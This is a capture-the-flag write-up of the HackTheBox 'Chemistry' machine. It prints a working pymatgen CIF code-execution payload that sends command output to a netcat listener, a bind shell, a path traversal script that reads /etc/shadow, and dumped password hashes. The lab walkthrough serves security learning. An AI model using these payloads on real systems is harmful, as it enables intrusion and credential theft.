




## Introduction

This write-up details my approach to solving the HackTheBox machine "Chemistry". The box demonstrates multiple vulnerabilities including a CIF parser code execution vulnerability (CVE-2024-23346) and a path traversal vulnerability in aiohttp (CVE-2024-23334).

## Initial Reconnaissance

Started with a Nmap scan to identify open ports:

```bash
❯ nmap -sC -sV -oA nmap/chemistry -v chemistry.htb
```

The scan revealed two open ports:
- Port 22 (SSH) - OpenSSH 8.2p1
- Port 5000 (HTTP) - Werkzeug httpd 3.0.3 (Python 3.9.5)

## Web Application Analysis

Browsing to the web server on port 5000 revealed a chemistry-related site that allowed users to upload and view CIF (Crystallographic Information File) files:


After registering an account, I tested the file upload functionality:


1. Downloaded the example CIF file provided
2. Uploaded it back to see how the application processes these files
3. The application parsed the CIF file and displayed its contents in HTML format



## Initial Foothold

### Discovering the CIF Parser Vulnerability

Testing various payloads through Burp Suite resulted in 500 errors, suggesting potential parser vulnerabilities. Research led to discovering CVE-2024-23346, a critical vulnerability in the PyMatGen library that parses CIF files.

[This page](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) has a PoC that looks to exploit a CIF parser and run bash system commands through python. I changed the system command to "sleep 10" for testing:
```text
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("sleep 10");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

After uploading and opening the file, a 10-second delay was triggered and this confirmed command execution. Next, I modified the payload to run the `uname -a` command and pipe the output to my ncat listener:
```text
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("uname -a | nc 10.10.14.87 4444");0,0,0'
```

Setup my ncat listener, uploaded the file with our payload, clicked to view the uploaded CIF file that contains the payload and got the command output sent back to us:
```shell
❯ ncat -l 10.10.14.87 -nvp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.87:4444
Ncat: Connection from 10.129.111.57:39802.
Linux chemistry 5.4.0-196-generic #216-Ubuntu SMP Thu Aug 29 13:26:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

### System Enumeration

Using the command execution vulnerability, I discovered:
- Two users on the system: `app` and `rosa`
- We were running as the `app` user
- Found an `app.py` file with exposed credentials:
  ```python
  app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
  app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
  ```
- Located the database file at `/home/app/instance/database.db`

### Establishing a Proper Shell

To make enumeration easier, I uploaded a netcat binary to the target and used it to establish a more stable connection. This was the command included in the cif payload after getting our nc binary on the target:
```bash
/home/app/nc -l 1337 -e /bin/sh
```

Then connected from my attacker machine:
```bash
ncat chemistry.htb 1337
```

## Lateral Movement

### Database Analysis

Retrieved the SQLite database file from the target and analyzed it locally:
```bash
❯ sqlite3 database.db
```

```sql
SQLite version 3.43.2 2023-10-10 13:08:14
Enter ".help" for usage hints.
sqlite> .tables
sqlite> .schema user
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
);
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|jcs|81e257187723947b0872c6dcae5afe77
```

The database contained several username and MD5 password hash combinations, and Rosa's hash was easily cracked. The cleartext password was "unicorniosrosados". These credentials successfully logged in via SSH:
```bash
❯ ssh rosa@chemistry.htb
rosa@chemistry.htb's password:

rosa@chemistry:~$ cat user.txt
529e3093bc1c52e29a7--snip--
```

## Privilege Escalation

### Process Enumeration

Discovered two important Python processes running:
```bash
rosa@chemistry:~$ ps aux |grep app |grep -v grep
app         1021  0.1  4.7 1289244 94208 ?       Ssl  17:40   0:03 /usr/bin/python3.9 /home/app/app.py
root        1023  0.0  1.3  35408 27620 ?        Ss   17:40   0:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
```

Also found port 8080 listening locally:
```bash
rosa@chemistry:~$ netstat -tulpn
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
```

### Exploiting aiohttp Path Traversal

Set up port forwarding to access the locally running web service:
```bash
ssh -L 8282:127.0.0.1:8080 rosa@chemistry.htb
```

The service was a "Site Monitoring" application running aiohttp/3.9.1, which is vulnerable to path traversal (CVE-2024-23334):


Found a PoC for this cve [here](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh), and edited it to retrieve the /etc/shadow file:
```bash
#!/bin/bash

url="http://localhost:8282"
string="../"
payload="/assets/"
file="etc/shadow" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

After adding the `/assets` directory prefix, successfully accessed the `/etc/shadow` file, confirming the vulnerability.
```bash
❯ ./aiohttp_exploit.sh
[+] Testing with /assets/../../../root/root.txt
        Status code --> 200
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19889:0:99999:7:::
sshd:*:19889:0:99999:7:::
systemd-coredump:!!:19889::::::
rosa:$6$giyD4I2YumzG4k6.$0h0Gtrjj13qoK6m0XevedDBanbEz6BStzsLwUtrDm5sVkmnHOSSWF8f6W8B9btTEzyskmA2h/7F7gyvX1fzrT0:19893:0:99999:7:::
lxd:!:19889::::::
app:$6$XUL17hADm4qICsPv$QvCHMOImUTmS1jiaTQ2t6ZJtDAzgkqRhFYOMd0nty3lLwpyxTiyMWRgO/jbySPENinpJlL0z3MK1OVEaG44sQ1:19890:0:99999:7:::
_laurel:!:20007::::::
```

Finally, modified the script to access `/root/root.txt`:
```shell
#!/bin/bash

url="http://localhost:8282"
string="../"
payload="/static/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

The output reveals the root flag:
```shell
❯ ./aiohttp_exploit.sh
[+] Testing with /assets/../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../../root/root.txt
	Status code --> 200
4da3347c8d07120130282--snip--
```

## Vulnerabilities Identified

1. **CIF Parser Code Execution (CVE-2024-23346)**
   - Insecure deserialization in the PyMatGen library
   - CWE-502: Deserialization of Untrusted Data

2. **Credentials in Application Code**
   - Hardcoded database credentials in the application
   - CWE-798: Use of Hard-coded Credentials

3. **Weak Password Storage**
   - MD5 hashing without salting
   - CWE-327: Use of a Broken or Risky Cryptographic Algorithm

4. **Path Traversal in aiohttp (CVE-2024-23334)**
   - Directory traversal vulnerability allowing access to arbitrary files
   - CWE-22: Improper Limitation of a Pathname to a Restricted Directory

## Tools Used

- Nmap
- Burp Suite
- SQLite3
- Netcat
- Custom exploitation scripts

## References
- [CVE-2024-23346: PyMatGen CIF Parser Code Execution](https://nvd.nist.gov/vuln/detail/CVE-2024-23346)
- [CVE-2024-23334: aiohttp Path Traversal Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)